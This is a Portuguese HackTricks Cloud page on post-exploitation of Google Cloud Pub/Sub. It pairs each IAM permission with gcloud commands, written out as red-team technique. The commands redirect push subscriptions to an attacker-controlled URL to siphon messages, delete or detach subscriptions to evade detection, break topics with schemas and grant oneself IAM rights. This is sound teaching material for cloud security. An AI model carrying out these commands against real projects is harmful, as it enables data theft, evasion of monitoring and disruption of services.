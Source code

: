 # GCP - Pub/Sub Pós-Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Pub/Sub

Para mais informações sobre Pub/Sub, confira a seguinte página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publique uma mensagem em um tópico, útil para **enviar dados inesperados** e acionar funcionalidades inesperadas ou explorar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.\
É possível excluir um tópico mesmo com assinaturas anexadas a ele.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Use esta permissão para atualizar alguma configuração do tópico para interrompê-lo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dê a si mesmo permissão para realizar qualquer um dos ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenha todas as mensagens em um servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crie uma assinatura e use-a para **puxar mensagens**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Excluir uma assinatura** pode ser útil para interromper um sistema de processamento de logs ou algo semelhante:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Use esta permissão para atualizar algumas configurações para que as mensagens sejam armazenadas em um local que você possa acessar (URL, tabela Big Query, Bucket) ou apenas para interrompê-las.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Dê a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Ataque um esquema a um tópico para que as mensagens não o cumpram e, portanto, o tópico seja interrompido.\
Se não houver esquemas, você pode precisar criar um.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Isso pode parecer que ao deletar um esquema você poderá enviar mensagens que não atendem ao esquema. No entanto, como o esquema será deletado, nenhuma mensagem realmente entrará no tópico. Portanto, isso é **INÚTIL**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Dê a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Isso criará um snapshot de todas as mensagens não reconhecidas e as colocará de volta na assinatura. Não é muito útil para um atacante, mas aqui está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
